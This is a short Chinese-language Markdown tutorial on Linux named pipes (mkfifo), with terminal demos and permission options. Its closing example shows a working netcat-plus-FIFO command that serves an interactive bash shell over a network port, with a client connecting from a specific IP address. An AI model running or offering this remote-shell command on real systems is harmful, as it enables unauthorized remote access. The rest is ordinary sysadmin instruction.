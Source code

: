 # Linux mkfifo管道符

> 也可以使用mknod来生成

## 概述

`mkfifo`命令用于创建FIFO(命名管道符)。

**命名管道符 VS 匿名管道符**

==管道符用于创建程序之间的通信通道==（管道相当于一个通道，使用FIFO策略）

- 匿名管道符`|`，我们可以使用`-`来占位，例如`openssl rand -hex 10 | xxd -`等价`openssl rand -hex 10 | xxd`
- 我们使用`mkfifo`来创建命名管道符

> 我们可以使用匿名管道符来传递数据，但是这中方式有一个缺陷。只能由同一个祖先进程启动。所以我们可以使用命名管道符（在Linux一切皆文件）

```
terminal01
root in /opt/test λ mkfifo pipe2 #创建一个命名管道符
root in /opt/test λ ll
|rw-r--r-- root root 0 B Thu Jan  7 07:25:45 2021  pipe2     
root in /opt/test λ echo "hello to pipe2" > pipe2  #将需要传输的内容写入管道中，由于是echo进程启动的，所以管道符会一直阻塞echo进程，知道管道符中的内容被读取

----

terminal02
root in ~ λcat < /opt/test/pipe2 #读取管道中内容
       STDIN
   1   hello to pipe2 

```

管道符有三种权限策略（与文件权限相同），我们可以通过`-m`参数来指定

```
root in /opt/test λ mkfifo pipe2 -m 700                                  /0.0s
root in /opt/test λ ll
|rwx------ root root 0 B Thu Jan  7 07:35:53 2021  pipe2                /0.0s
```

## 案例

使用nc创建管道符，实现reserveshell

```
#server side 
root in /tmp mkfifo /tmp/pipe2
root in /tmp λ cat /tmp/pipe2 | /bin/bash -i 2&>1  | nc -l 10086 > /tmp/pipe2 

#client side 
root in /opt/test λ nc 8.135.0.171 10086
```

